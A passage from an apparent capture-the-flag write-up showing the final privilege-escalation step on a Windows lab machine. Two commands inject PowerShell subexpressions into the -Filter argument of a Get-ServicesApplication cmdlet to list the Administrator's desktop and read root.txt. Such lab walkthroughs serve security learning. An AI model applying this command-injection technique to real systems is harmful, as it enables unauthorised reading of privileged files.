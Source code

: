 ![image56](../resources/df48966e3dc3423e95f42477ab0bf518.png)

- Look on Administrators Desktop:

```bash
Get-ServicesApplication -Filter '$(dir C:\Users\Administrator\Desktop)'

```

![image57](../resources/a657023a7e6b47b1978c6347948c1554.png)

- Read root.txt

```bash
Get-ServicesApplication -Filter '$(type C:\Users\Administrator\Desktop\root.txt)'

```

![image58](../resources/c6df4e9d47954bf69da8cbd96ce1c3eb.png)
